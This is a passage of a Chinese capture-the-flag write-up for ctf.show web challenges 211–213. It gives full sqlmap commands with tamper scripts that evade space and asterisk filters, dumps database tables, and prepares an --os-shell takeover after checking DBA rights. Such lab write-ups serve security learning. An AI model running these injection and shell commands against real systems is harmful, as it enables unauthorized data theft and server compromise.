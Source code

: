 ```php
function waf($str){
    return preg_match('/ /', $str);
}
```
多过滤了空格，不过base64后也没有空格，或者使用/**/代替也行，同上
payload：
```sql
sqlmap -u http://0bbd2e83-d166-48d7-bf6f-e1cc1757f23c.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://0bbd2e83-d166-48d7-bf6f-e1cc1757f23c.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=kvugtg72oirlau35bd7sp47lft" --referer="http://0bbd2e83-d166-48d7-bf6f-e1cc1757f23c.challenge.ctf.show/sqlmap.php" --tamper=space2comment.py,base64_reverse.py -D ctfshow_web -T ctfshow_flavia --dump
```
## web212（sqlmap --tamper base64_reverse）
```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```
过滤了空格外还过滤了*，可以使用%0a绕过，脚本同web209，但是要删除等号的替换，防止对base64结果造成影响
payload：
```sql
sqlmap -u http://6042e5b9-06e2-4e2e-be35-331c4ea7bd10.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://6042e5b9-06e2-4e2e-be35-331c4ea7bd10.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=0bs54hboh98dsq24ct61otlnch" --referer="http://6042e5b9-06e2-4e2e-be35-331c4ea7bd10.challenge.ctf.show/sqlmap.php" --tamper=space20a.py,base64_reverse.py -D ctfshow_web -T ctfshow_flavis --dump
```
## web213（sqlmap --os-shell）
```sql
练习使用--os-shell 一键getshell
```
题目和上个题一样，提示说使用--os-shell，那么就是正常姿势，先查找注入点：
```sql
sqlmap -u http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=0bs54hboh98dsq24ct61otlnch" --referer="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/sqlmap.php" --tamper=space20a.py,base64_reverse.py
```
使用--os-shell一个条件就是当前用户必须有root权限，所以查看一下：
```sql
sqlmap -u http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/index.php --method=put --data="id=1" --headers="content-type:text/plain" --batch --safe-url="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="UM_distinctid=17d0a9bdbc07e4-0fff9a495dfe88-57b1a33-144000-17d0a9bdbc1cdd; PHPSESSID=0bs54hboh98dsq24ct61otlnch" --referer="http://6dbfae24-2cec-463d-b96c-45fd34fb84fc.challenge.ctf.show/sqlmap.php" --tamper=space20a.py,base64_reverse.py --is-dba --current-user
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639584220972-6a045834-613c-495a-ae85-76f9da962a19.png)
符合预期，然后就是--os-shell
